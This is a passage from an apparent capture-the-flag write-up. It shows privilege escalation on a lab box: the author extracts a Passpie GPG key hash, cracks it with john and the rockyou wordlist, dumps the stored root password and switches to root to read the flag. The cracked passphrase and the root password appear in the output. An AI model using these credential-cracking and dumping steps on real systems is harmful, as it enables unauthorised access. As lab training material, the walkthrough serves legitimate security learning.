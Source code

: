 ```bash

File keys
Passpie:$gpg$*17*54*3072*e975911867862609115f302a3d0196aec0c2ebf79a84c0303056df921c965e589f82d7dd71099ed9749408d5ad17a4421006d89b49c0*3*254*2*7*16*21d36a3443b38bad35df0f0e2c77f6b9*65011712*907cb55ccb37aaad:::Passpie (Auto-generated by Passpie) <passpie@local>::keys
```
I copy the hash to my host and run `john`. It cracks almost immediately.
```bash
┌──(plus1059㉿Nucleus)──[23:56:50]──[~/hash]
└─$ john --wordlist=/opt/seclists/Passwords/Leaked-Databases/rockyou.txt gpg.hash 
<...SNIP...>
Press 'q' or Ctrl-C to abort, almost any other key for status
blink182         (Passpie)

```
I do this and look at that, the hash cracks! I use this passphrase to dump creds from passpie using the `copy` function to print the `root` password. 
```bash
jnelson@meta2:~/.passpie$ passpie copy --to stdout root@ssh
Passphrase: 
p7qfAZt4_A1xo_0x
```
I then just `su` over to root and grab the flag
```bash
jnelson@meta2:~/.passpie$ su root
Password: 
root@meta2:/home/jnelson/.passpie# cd 
root@meta2:~# cat root.txt
d7962d17------------------------
root@meta2:~# 
```